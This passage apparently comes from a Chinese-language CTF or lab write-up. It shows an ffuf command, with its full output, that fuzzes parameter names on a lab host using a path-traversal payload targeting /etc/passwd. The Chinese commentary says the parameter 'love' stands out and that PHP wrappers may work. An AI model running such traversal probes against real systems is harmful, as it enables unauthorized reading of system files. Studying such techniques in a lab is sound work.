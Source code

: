 ```
[root@kali] /home/kali/Rutas  
❯ ffuf -w ../Desktop/fuzzDicts/paramDict/AllParam.txt  -u 'http://trackedvuln.dl/index.php?FUZZ=../../../../../etc/passwd'  -t 50  -H "Authorization : Basic aGFja2VhZGE6ZGVudWV2bw==" -fs 901

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://trackedvuln.dl/index.php?FUZZ=../../../../../etc/passwd
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/paramDict/AllParam.txt
 :: Header           : Authorization: Basic aGFja2VhZGE6ZGVudWV2bw==
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 901
________________________________________________

love                    [Status: 200, Size: 1079, Words: 172, Lines: 40, Duration: 5ms]
:: Progress: [74332/74332] :: Job [1/1] :: 7812 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

看来参数**love**返回值不太一样，但是似乎并不能直接读取到**/etc/passwd**

但是好像可以通过**PHP**伪协议进行操作

![](./images/image-97.png)
